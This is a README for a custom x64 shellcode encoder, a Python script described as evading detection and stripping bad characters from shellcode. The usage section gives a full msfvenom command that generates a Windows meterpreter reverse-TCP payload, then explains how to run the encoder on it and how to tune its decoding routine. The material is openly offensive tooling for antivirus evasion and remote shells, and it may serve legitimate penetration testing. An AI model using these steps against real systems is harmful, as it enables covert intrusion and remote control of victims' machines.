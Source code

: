 # x64-shellcode-encoder
Custom 64 bit shellcode encoder that evades detection and removes some common badchars (\x00\x0a\x0d\x20)

## Usage
Using a generator such as msfvenom, run the following command:
```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=443 -f raw -o sc.bin```

Then, run the python script with the file containing shellcode bytes as an argument:
```python3 encoder-x64.py sc.bin```

## Extra notes
The script will automatically look for the following common bad characters after encoding the shellcode (null bytes, new lines, carriage returns, spaces). This can be disabled by commenting out code on line 130 and uncommenting lines 128 + 129. This will make the encoded shellcode much shorter, but it will likely contain a few bad characters. The script will output what bad characters the encoded shell code ends up containing as well as their positions in the shellcode.

It is also worth noting that short shellcode (less than 255 bytes) will likely contain a null byte in the encoded shellcode in part of the decoding routine. This null byte comes from line 80, and if short shellcode must be used that does not contain null bytes, edit the script to do something along the lines of:
```mov cl, shellcode_length```
where the shellcode_length would be one byte long. This shortens the decoding routine by two bytes, so either add in a couple of NOP instructions or edit the offset on line 57 to account for it.
